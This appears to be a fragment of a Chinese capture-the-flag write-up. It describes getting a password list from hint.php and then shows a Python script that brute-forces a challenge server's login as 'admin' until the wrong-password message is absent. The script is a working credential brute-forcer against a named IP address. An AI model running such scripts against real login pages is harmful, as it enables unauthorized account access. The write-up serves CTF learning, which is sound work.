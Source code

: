 访问`hint.php` 得到一个文件  

![image-20191117212350116](img/image-20191117212350116.png)

尝试以`admin`作为用户名，用以上信息作为密码写脚本进行登录，  

然而好像没有成功（有可能有成功的没看到？？？  

> 难受了，现场写的时候脑乱了，把所有登录数据都打印出来了，然后没找到flag...  
> 加一个if重新来就看到了惹emmm

**爆破一波**

```python
# -*- coding:utf-8 -*-
import requests

s = requests.Session()
r = s.get("http://139.9.212.218:39010/index.php")
r.encoding = "utf-8"
print(r.text)

with open('name-pass.txt', 'r') as file:
    contents = file.read().split()
    # print(contents)
    passwords = contents

for password in passwords:
    values = {'name': 'admin',
              'password': password}
    r = s.get("http://139.9.212.218:39010/index.php", params=values)
    r.encoding = 'utf-8'
    if '密码错误' not in r.text:
        print(r.text)
```
